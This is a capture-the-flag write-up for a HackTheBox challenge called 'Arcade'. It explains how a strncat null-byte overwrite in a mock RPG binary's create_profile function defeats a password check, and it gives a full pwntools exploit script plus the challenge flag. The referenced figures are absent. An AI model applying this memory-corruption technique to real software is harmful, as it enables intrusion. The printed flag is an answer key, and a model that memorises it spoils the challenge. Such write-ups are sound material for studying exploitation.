



# Arcade

Here we have a binary for local debugging and a remote server running it. Binary is basically mock rpg game and one of its function is to give flag. The part of the binary with the flag output function is shown at the Figure 1.



Figure 1 – The part of disassembled binary with flag output function

But it will give flag only if temp_pass is not equal to passw[248:255]. So, we needed to overwrite it. We can do so in create_profile function because it uses strncat and nullbyte can be written exact in the end of out string if we will provide it only dashes as input. This is shown on the Figure 2.



Figure 2 –  The part of disassembled binary with vulnerable constructions

Final exploit looks as follow:

```Python
from pwn import *
exe = context.binary = ELF('arcade')
def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)
gdbscript = '''
continue
'''.format(**locals())
io = remote("docker.hackthebox.eu",31046)
io.recvuntil(">")
io.sendline('2')
io.recvuntil(">")
io.sendline('1')
io.recvuntil("Super-")
io.send('Super-'+'-'*7)
io.send('2')
io.recvuntil(">")
io.sendline("120")
io.recvuntil(">")
io.send('-'*120)
io.recvuntil(">")
io.sendline('1')
io.recvuntil("Super-")
io.send('Super-'+'-'*7)
io.send('2')
io.recvuntil(">")
io.sendline("120")
io.recvuntil(">")
io.send('-'*120)
io.recvuntil(">")
io.sendline('1')
io.recvuntil("Super-")
io.send('Super-'+'-'*7)
io.send('2')
io.recvuntil(">")
io.sendline("120")
io.recvuntil(">")
io.send('-'*120)
#retrieve flag manually
io.interactive()
```

The result of the exploit execution can be seen on the Figure 3.



Figure 3 – The result of exploit execution and flag retrieval

Flag: HTB{1ts_4_m3_fl4gioo!}.
